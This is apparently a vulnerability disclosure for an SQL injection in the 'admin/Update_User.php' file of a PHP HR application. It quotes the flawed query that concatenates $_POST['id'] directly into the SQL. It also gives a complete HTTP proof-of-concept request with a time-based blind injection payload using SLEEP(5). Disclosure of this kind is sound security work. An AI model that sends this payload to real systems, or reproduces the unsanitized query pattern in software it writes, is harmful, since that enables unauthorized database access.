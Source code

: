 ### Vulnerability file address

`admin/Update_User.php` from line 11,The `$_POST['id']` parameter is controllable and the `$_POST['id']` is not protected from sql injection, line 12 `$stmt->execute();` ,line 13 `$product_group = $stmt->fetch(PDO::FETCH_ASSOC);`,line 13 performs a SQL query, causing SQL injection

```php
<?php
error_reporting(0);
require_once('../assets/constants/config.php');
require_once('../assets/constants/check-login.php');
require_once('../assets/constants/fetch-my-info.php');

?>
<?php


$stmt = $conn->prepare("SELECT * FROM admin WHERE id='" . $_POST['id'] . "'");
$stmt->execute();
$product_group = $stmt->fetch(PDO::FETCH_ASSOC);
// print_r($product_group);exit;
$stmt = $conn->prepare("SELECT * FROM groups WHERE name != 'admin' and delete_status='0'");
$stmt->execute();
$groups = $stmt->fetchAll();



?>
```

### POC

```http
POST /CMS/php/_hr_soft/admin/Update_User.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

id=1000' AND (SELECT 1701 FROM (SELECT(SLEEP(5)))psxY)-- CQRK
```

### Attack results pictures

![image-20250130133305821](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501301333973.png)